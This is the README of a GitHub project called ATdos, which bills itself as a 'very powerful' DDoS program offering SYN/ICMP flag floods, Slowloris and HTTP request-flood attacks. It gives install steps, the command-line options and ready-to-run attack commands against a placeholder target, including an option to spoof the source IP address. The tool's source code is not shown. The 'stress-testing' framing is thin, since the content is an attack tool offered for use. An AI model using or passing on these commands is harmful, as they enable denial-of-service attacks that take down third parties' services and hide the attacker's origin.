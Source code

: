 [![](https://img.shields.io/badge/NACG_CJanGe-ATdos-blue)](http://github.com/NACG-Mohr/CJan-Ge)
<h1 align="center">ATdos</h1>

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install ATdos

```
git clone https://github.com/nacgalevin/ATdos
```
```
cd ATdos
```
```
chmod +x *
```
```
./install.py
```
## Usages
```
usage: ./ATdos.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./ATdos.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```